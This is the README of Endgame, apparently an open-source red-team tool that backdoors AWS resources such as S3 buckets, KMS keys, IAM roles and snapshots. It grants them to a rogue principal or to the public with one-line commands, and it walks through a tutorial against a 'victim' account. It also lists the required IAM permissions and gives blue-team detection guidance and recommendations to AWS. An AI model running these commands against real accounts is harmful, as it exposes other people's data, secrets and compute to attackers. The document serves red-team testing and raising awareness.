

# Endgame

Use a one-liner command to backdoor an AWS account's resources with a rogue AWS Account - or to the entire internet 😈

[](https://github.com/salesforce/endgame/actions?query=workflow%3Acontinuous-integration)
[](https://endgame.readthedocs.io/en/latest/?badge=latest)
[](https://gitter.im/salesforce/endgame?utm_source=badge&utm_medium=badge&utm_campaign=pr-badge&utm_content=badge)
[](https://twitter.com/kmcquade3)
[](https://pepy.tech/project/endgame)

<p align="center">
  
</p>


**TLDR**: `endgame smash --service all` to create backdoors across your entire AWS account - either to a rogue IAM user/role or to the entire internet.

#### Cheatsheet

```bash
# this will ruin your day
endgame smash --service all --evil-principal "*"
# This will show you how your day could have been ruined
endgame smash --service all --evil-principal "*" --dry-run
# Atone for your sins
endgame smash --service all --evil-principal "*" --undo
# Consider maybe atoning for your sins
endgame smash --service all --evil-principal "*" --undo --dry-run

# List resources available for exploitation
endgame list-resources --service all
# Expose specific resources
endgame expose --service s3 --name computers-were-a-mistake
```

# Endgame: Creating Backdoors in AWS

Endgame abuses AWS's resource permission model to grant rogue users (or the internet) access to an AWS account's resources with a single command.

Endgame demonstrates (with a bit of shock and awe) how simple human errors in excessive permissions (such a granting `s3:*` access instead of `s3:GetObject`) can be abused by attackers. These are not new attacks, but AWS's ability to **detect** _and_ **prevent** these attacks falls short of what customers need to protect themselves. This is what inspired us to write this tool. Follow the [Tutorial](#tutorial) and observe how you can expose resources across **17 different AWS services** to the internet in a matter of seconds.

The resource types that can be exposed are of high value to attackers. This can include:
* Privileged compute access (by exposing who can invoke `lambda` functions)
* Database snapshots (`rds`), Storage buckets (`s3`), file systems (`elasticfilesystem`), storage backups (`glacier`), disk snapshots (`ebs` snapshots),
* Encryption keys (`kms`), secrets (`secretsmanager`), and private certificate authorities (`acm-pca`)
* Messaging and notification services (`sqs` queues, `sns` topics, `ses` authorized senders)
* Compute artifacts (`ec2` AMIs, `ecr` images, `lambda` layers)
* Logging endpoints (`cloudwatch` resource policies)
* Search and analytics engines (`elasticsearch` clusters)

Endgame is an attack tool, but it was written with a specific purpose. We wrote this tool with desired outcomes for the following audiences:
1. **AWS**: We want AWS to empower their customers with the capabilities to fight these attacks. Our recommendations are outlined in the [Recommendations to AWS](#recommendations-to-aws) section.
2. **AWS Customers and their customers**: It is better to have risks be more easily understood and know how to mitigate those risks than to force people to fight something novel. By increasing awareness about Resource Exposure and excessive permissions, we can protect ourselves against attacks where the attackers previously held the advantage and AWS customers were previously left blind.
3. **Blue Teams**: Defense teams can leverage the guidance around user-agent detection, API call detection, and behavioral detection outlined in the [Recommendations to Blue Teams](#recommendations-to-blue-teams) section.
4. **Red Teams**: This will make for some very eventful red team exercises. Make sure you give the Blue Team kudos when they catch you!

## Supported Backdoors

Endgame can create backdoors for resources in any of the services listed in the table below.

Note: At the time of this writing, [AWS Access Analyzer](https://docs.aws.amazon.com/IAM/latest/UserGuide/access-analyzer-resources.html) does **NOT** support auditing **11 out of the 18 services** that Endgame attacks. Given that Access Analyzer is intended to detect this exact kind of violation, we kindly suggest to the AWS Team that they support all resources that can be attacked using Endgame. 😊

| Backdoor Resource Type                                  | Support | [AWS Access Analyzer Support][1] |
|---------------------------------------------------------|---------|----------------------------------|
| [ACM Private CAs](docs/risks/acm-pca.md)                | ✅     | ❌                               |
| [CloudWatch Resource Policies](docs/risks/logs.md)      | ✅     | ❌                               |
| [EBS Volume Snapshots](docs/risks/ebs.md)               | ✅     | ❌                               |
| [EC2 AMIs](docs/risks/amis.md)                          | ✅     | ❌                               |
| [ECR Container Repositories](docs/risks/ecr.md)         | ✅     | ❌                               |
| [EFS File Systems](docs/risks/efs.md)                   | ✅     | ❌                               |
| [ElasticSearch Domains](docs/risks/es.md)               | ✅     | ❌                               |
| [Glacier Vault Access Policies](docs/risks/glacier.md)  | ✅     | ❌                               |
| [IAM Roles](docs/risks/iam-roles.md)                    | ✅     | ✅                               |
| [KMS Keys](docs/risks/kms.md)                           | ✅     | ✅                               |
| [Lambda Functions](docs/risks/lambda-functions.md)      | ✅     | ✅                               |
| [Lambda Layers](docs/risks/lambda-layers.md)            | ✅     | ✅                               |
| [RDS Snapshots](docs/risks/rds-snapshots.md)            | ✅     | ❌                               |
| [S3 Buckets](docs/risks/s3.md)                          | ✅     | ✅                               |
| [Secrets Manager Secrets](docs/risks/secretsmanager.md) | ✅     | ✅                               |
| [SES Sender Authorization Policies](docs/risks/ses.md)  | ✅     | ❌                               |
| [SQS Queues](docs/risks/sqs.md)                         | ✅     | ✅                               |
| [SNS Topics](docs/risks/sns.md)                         | ✅     | ❌                               |


## Installation

* pip3

```bash
pip3 install --user endgame
```

* Homebrew (this will not work until the repository is public)

```bash
brew tap salesforce/endgame https://github.com/salesforce/endgame
brew install endgame
```

Now you should be able to execute Endgame from command line by running `endgame --help`.

### Shell Completion

* To enable Bash completion, put this in your `~/.bashrc`:

```bash
eval "$(_ENDGAME_COMPLETE=source endgame)"
```

* To enable ZSH completion, put this in your `~/.zshrc`:

```bash
eval "$(_ENDGAME_COMPLETE=source_zsh endgame)"
```

# Tutorial

## Step 1: Setup

* First, authenticate to AWS CLI using credentials to the victim's account.

* Set the environment variables for `EVIL_PRINCIPAL` (required). Optionally, set the environment variables for `AWS_REGION` and `AWS_PROFILE`

```bash
# Set `EVIL_PRINCIPAL` environment variable to the rogue IAM User or 
# Role that you want to give access to.
export EVIL_PRINCIPAL=arn:aws:iam::999988887777:user/evil

# If you don't supply these values, these will be the defaults.
export AWS_REGION="us-east-1"
export AWS_PROFILE="default"
```

## Step 2: Create Demo Infrastructure

This program makes modifications to live AWS Infrastructure, which can vary from account to account. We have bootstrapped some of this for you using [Terraform](https://www.terraform.io/intro/index.html). **Note: This will create real AWS infrastructure and will cost you money.**

```bash
# To create the demo infrastructure
make terraform-demo
```

## Step 3: List Victim Resources

You can use the `list-resources` command to list resources in the account that you can backdoor.

* Examples:

```bash
# List IAM Roles, so you can create a backdoor via their AssumeRole policies
endgame list-resources -s iam

# List S3 buckets, so you can create a backdoor via their Bucket policies 
endgame list-resources --service s3

# List all resources across services that can be backdoored
endgame list-resources --service all
```

## Step 4: Backdoor specific resources

* Use the `--dry-run` command first to test it without modifying anything:

```bash
endgame expose --service iam --name test-resource-exposure --dry-run
```

* To create the backdoor to that resource from your rogue account, run the following:

```bash
endgame expose --service iam --name test-resource-exposure
```

Example output:

<p align="center">
  
</p>

## Step 5: Roll back changes

* If you want to atone for your sins (optional) you can use the `--undo` flag to roll back the changes.

```bash
endgame expose --service iam --name test-resource-exposure --undo
```

<p align="center">
  
</p>

## Step 6: Smash your AWS Account to Pieces

* Run the following command to expose every exposable resource in your AWS account.

```bash
endgame smash --service all --dry-run
endgame smash --service all
endgame smash --service all --undo
```

## Step 7: Destroy Demo Infrastructure

* Now that you are done with the tutorial, don't forget to clean up the demo infrastructure.

```bash
# Destroy the demo infrastructure
make terraform-destroy
```

# Recommendations

## Recommendations to AWS

While [Cloudsplaining](https://opensource.salesforce.com/cloudsplaining/) (a Salesforce-produced AWS IAM assessment tool), showed us the pervasiveness of least privilege violations in AWS IAM across the industry, Endgame shows us how it is already easy for attackers. These are not new attacks, but AWS's ability to **detect** _and_ **prevent** these attacks falls short of what customers need to protect themselves.

[AWS Access Analyzer](https://docs.aws.amazon.com/IAM/latest/UserGuide/what-is-access-analyzer.html) is a tool produced by AWS that helps you identify the resources in your organization and accounts, such as Amazon S3 buckets or IAM roles, that are shared with an external entity. In short, it **detects** instances of this resource exposure problem. However, it does not by itself meet customer need, due to current gaps in coverage and the lack of preventative tooling to compliment it.

At the time of this writing, [AWS Access Analyzer](https://docs.aws.amazon.com/IAM/latest/UserGuide/access-analyzer-resources.html) does **NOT** support auditing **11 out of the 18 services** that Endgame attacks. Given that Access Analyzer is intended to detect this exact kind of violation, we kindly suggest to the AWS Team that they support all resources that can be attacked using Endgame. 😊

The lack of preventative tooling makes this issue more difficult for customers. Ideally, customers should be able to say, "Nobody in my AWS Organization is allowed to share **any** resources that can be exposed by Endgame outside of the organization, unless that resource is in an exemption list." This **should** be possible, but it is not. It is not even possible to use [AWS Service Control Policies (SCPS)](https://docs.aws.amazon.com/organizations/latest/userguide/orgs_manage_policies_scps.html) - AWS's preventative guardrails service - to prevent `sts:AssumeRole` calls from outside your AWS Organization. The current SCP service limit of 5 SCPs per AWS account compounds this problem.

We recommend that AWS take the following measures in response:
* Increase Access Advisor Support to cover the resources that can be exposed via Resource-based Policy modification, AWS RAM resource sharing, and resource-specific sharing APIs (such as RDS snapshots, EBS snapshots, and EC2 AMIs)
* Create GuardDuty rules that detect anomalous exposure of resources outside your AWS Organization.
* Expand the current limit of 5 SCPs per AWS account to 200. (for comparison, the Azure equivalent - Azure Policies - has a limit of [200 Policy or Initiative Assignments per subscription](https://docs.microsoft.com/en-us/azure/azure-resource-manager/management/azure-subscription-service-limits#azure-policy-limits))
* Improve the AWS SCP service to support an "Audit" mode that would record in CloudTrail whether API calls would have been denied had the SCP not been in audit mode. This would increase customer adoption and make it easier for customers to both pilot and roll out new guardrails. (for comparison, the Azure Equivalent - Azure Policies - already [supports Audit mode](https://docs.microsoft.com/en-us/azure/governance/policy/concepts/effects#audit).
* Support the usage of `sts:AssumeRole` to prevent calls from outside your AWS Organization, with targeted exceptions.

## Recommendations to Blue Teams

There are three general methods that blue teams can use to detect the usage of this tool:
1. User Agent Detection
2. API call detection
3. Behavioral-based detection

#### User Agent Detection

Endgame uses the user agent `HotDogsAreSandwiches` by default. While this can be overriden using the `--cloak` flag, defense teams can still use it as an IOC.

The following CloudWatch Insights query will expose events with the `HotDogsAreSandwiches` user agent in CloudTrail logs:

```
fields eventTime, eventSource, eventName, userIdentity.arn, userAgent 
| filter userAgent='HotDogsAreSandwiches'
```

This query assumes that your CloudTrail logs are being sent to CloudWatch and that you have selected the correct log group.

#### API Call Detection

Further documentation on how to query for specific API calls made to each service by endgame is available in the [risks documentation](docs/risks).

#### Behavioral-based detection

Behavioral-based detection is currently being researched and developed by [Ryan Stalets](https://twitter.com/RyanStalets). [GitHub issue #46](https://github.com/salesforce/endgame/issues/46) is being used to track this work. We welcome all contributions and discussion!


# IAM Permissions

The IAM Permissions listed below are used to create these backdoors.

You don't need **all** of these permissions to run the tool. You just need enough from each service. For example, `s3:ListAllMyBuckets`, `s3:GetBucketPolicy`, and `s3:PutBucketPolicy` are all the permissions needed to leverage this tool to expose S3 buckets.

```json
{
    "Version": "2012-10-17",
    "Statement": [
            {
            "Sid": "IAmInevitable",
            "Effect": "Allow",
            "Action": [
                "acm-pca:DeletePolicy",
                "acm-pca:GetPolicy",
                "acm-pca:ListCertificateAuthorities",
                "acm-pca:PutPolicy",
                "ec2:DescribeImageAttribute",
                "ec2:DescribeImages",
                "ec2:DescribeSnapshotAttribute",
                "ec2:DescribeSnapshots",
                "ec2:ModifySnapshotAttribute",
                "ec2:ModifyImageAttribute",
                "ecr:DescribeRepositories",
                "ecr:DeleteRepositoryPolicy",
                "ecr:GetRepositoryPolicy",
                "ecr:SetRepositoryPolicy",
                "elasticfilesystem:DescribeFileSystems",
                "elasticfilesystem:DescribeFileSystemPolicy",
                "elasticfilesystem:PutFileSystemPolicy",
                "es:DescribeElasticsearchDomainConfig",
                "es:ListDomainNames",
                "es:UpdateElasticsearchDomainConfig",
                "glacier:GetVaultAccessPolicy",
                "glacier:ListVaults",
                "glacier:SetVaultAccessPolicy",
                "iam:GetRole",
                "iam:ListRoles",
                "iam:UpdateAssumeRolePolicy",
                "kms:GetKeyPolicy",
                "kms:ListKeys",
                "kms:ListAliases",
                "kms:PutKeyPolicy",
                "lambda:AddLayerVersionPermission",
                "lambda:AddPermission",
                "lambda:GetPolicy",
                "lambda:GetLayerVersionPolicy",
                "lambda:ListFunctions",
                "lambda:ListLayers",
                "lambda:ListLayerVersions",
                "lambda:RemoveLayerVersionPermission",
                "lambda:RemovePermission",
                "logs:DescribeResourcePolicies",
                "logs:DeleteResourcePolicy",
                "logs:PutResourcePolicy",
                "rds:DescribeDbClusterSnapshots",
                "rds:DescribeDbClusterSnapshotAttributes",
                "rds:DescribeDbSnapshots",
                "rds:DescribeDbSnapshotAttributes",
                "rds:ModifyDbSnapshotAttribute",
                "rds:ModifyDbClusterSnapshotAttribute",
                "s3:GetBucketPolicy",
                "s3:ListAllMyBuckets",
                "s3:PutBucketPolicy",
                "secretsmanager:GetResourcePolicy",
                "secretsmanager:DeleteResourcePolicy",
                "secretsmanager:ListSecrets",
                "secretsmanager:PutResourcePolicy",
                "ses:DeleteIdentityPolicy",
                "ses:GetIdentityPolicies",
                "ses:ListIdentities",
                "ses:ListIdentityPolicies",
                "ses:PutIdentityPolicy",
                "sns:AddPermission",
                "sns:ListTopics",
                "sns:GetTopicAttributes",
                "sns:RemovePermission",
                "sqs:AddPermission",
                "sqs:GetQueueUrl",
                "sqs:GetQueueAttributes",
                "sqs:ListQueues",
                "sqs:RemovePermission"
            ],
            "Resource": "*"
        }
    ]
}
```

# Contributing

Want to contribute back to endgame? This section outlines our philosophy, the test suite, and issue tracking, and will house more details on the development flow and design as the tool matures.

**Impostor Syndrome Disclaimer**

Before we get into the details: We want your help. No, really.

There may be a little voice inside your head that is telling you that you're not ready to be an open source contributor; that your skills aren't nearly good enough to contribute. What could you possibly offer a project like this one?

We assure you -- the little voice in your head is wrong. If you can write code at all, you can contribute code to open source. Contributing to open source projects is a fantastic way to advance one's coding skills. Writing perfect code isn't the measure of a good developer (that would disqualify all of us!); it's trying to create something, making mistakes, and learning from those mistakes. That's how we all improve.

We've provided some clear Contribution Guidelines that you can read here. The guidelines outline the process that you'll need to follow to get a patch merged. By making expectations and process explicit, we hope it will make it easier for you to contribute.

And you don't just have to write code. You can help out by writing documentation, tests, or even by giving feedback about this work. (And yes, that includes giving feedback about the contribution guidelines.)

## Testing

### Unit tests

* Run [pytest](https://docs.pytest.org/en/stable/) with the following:

```bash
make test
```

### Security tests

* Run [bandit](https://bandit.readthedocs.io/en/latest/) with the following:

```bash
make security-test
```

### Integration tests

After making any modifications to the program, you can run a full-fledged integration test, using this program against your own test infrastructure in AWS.

* First, set your environment variables

```bash
# Set the environment variable for the username that you will create a backdoor for.
export EVIL_PRINCIPAL="arn:aws:iam::999988887777:user/evil"
export AWS_REGION="us-east-1"
export AWS_PROFILE="default"
```

* Then run the full-fledged integration test:

```bash
make integration-test
```

This does the following:
* Sets up your local dev environment (see `setup-dev`) in the `Makefile`
* Creates the Terraform infrastructure (see `terraform-demo` in the `Makefile`)
* Runs `list-resources`, `exploit --dry-run`, and `expose` against this live infrastructure
* Destroys the Terraform infrastructure (see `terraform-destroy` in the `Makefile`)

Note that the `expose` command will not expose the resources to the world - it will only expose them to your rogue user, not to the world.

# References

* [AWS Access Analyzer Supported Resources](https://docs.aws.amazon.com/IAM/latest/UserGuide/access-analyzer-resources.html)
* [AWS Exposable Resources](https://github.com/SummitRoute/aws_exposable_resources)
* [Moto: A library that allows you to easily mock out tests based on AWS Infrastructure](http://docs.getmoto.org/en/latest/docs/moto_apis.html)
* [Imposter Syndrome Disclaimer created by Adrienne Friend](https://github.com/adriennefriend/imposter-syndrome-disclaimer)

[1]: https://docs.aws.amazon.com/IAM/latest/UserGuide/access-analyzer-resources.html
